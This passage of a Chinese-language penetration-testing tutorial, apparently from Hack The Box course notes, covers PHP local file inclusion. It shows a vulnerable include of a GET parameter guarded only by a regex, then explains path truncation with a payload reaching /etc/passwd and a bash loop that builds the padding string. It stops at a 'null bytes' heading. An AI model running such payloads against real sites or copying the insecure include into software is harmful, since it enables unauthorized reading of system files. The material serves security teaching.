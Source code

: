   

**批准的路径**

```php

if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {

    include($_GET['language']);

} else {

    echo 'Illegal path specified!';

}

```


### 附加扩展

  

**路径截断**

  

在 PHP 的早期版本中，定义的字符串的最大长度为 4096 个字符，这可能是由于 32 位系统的限制。如果传递更长的字符串，则只会是truncated，最大长度之后的任何字符都将被忽略。此外，PHP 还用于删除路径名中的尾部斜杠和单点，因此如果我们调用 (/etc/passwd/.）然后 /. 也会被截断，PHP 会调用 (/etc/passwd）。 PHP 和 Linux 系统通常也会忽略路径中的多个斜杠（例如////etc/passwd是一样的 /etc/passwd）。同样，当前目录快捷方式（.）在路径中间也将被忽略（例如 /etc/./passwd).

  

如果我们将这两个 PHP 限制结合在一起，我们可以创建非常长的字符串，并计算出正确的路径。每当我们达到 4096 个字符的限制时，附加的扩展名 (.php) 将被截断，并且我们将得到一条没有附加扩展名的路径。最后，还需要注意的是，我们还需要start the path with a non-existing directory为了使这项技术发挥作用。

  

示例：

```

?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]

```

当然，我们不需要手动输入 ./ 2048 次（总共 4096 个字符），但我们可以使用以下命令自动创建该字符串：

```bash

turtlera@htb[/htb]$ echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done

non_existing_directory/../../../etc/passwd/./././<SNIP>././././

```

  

**空字节**

  

